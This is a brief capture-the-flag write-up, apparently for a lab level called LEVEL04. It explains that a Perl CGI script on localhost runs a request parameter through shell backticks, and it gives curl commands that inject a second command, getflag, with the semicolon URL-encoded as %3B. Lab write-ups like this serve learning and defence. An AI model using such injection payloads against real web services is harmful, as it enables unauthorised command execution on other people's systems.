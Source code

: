 LEVEL04

The script level04.pl is a Perl CGI script running on localhost:4747. It takes a parameter x from a web request and executes it using backticks `echo $y 2>&1`, which means it is vulnerable to command injection.

curl "http://localhost:4747/?x=;getflag"

need to replace ';' with '%3B'

becasue Semicolon (;) Special Role in URLs: In URLs, semicolons (;) are not always treated the same as regular characters. They are sometimes used by servers and web frameworks to separate parameters in query strings

for exemple:
curl "http://localhost:4747/?x=%3Bgetflag"
x='%3Bgetflag'

curl "http://localhost:4747/?x=hello;y=world"
In this case:
x=hello is one parameter.
y=world is another parameter.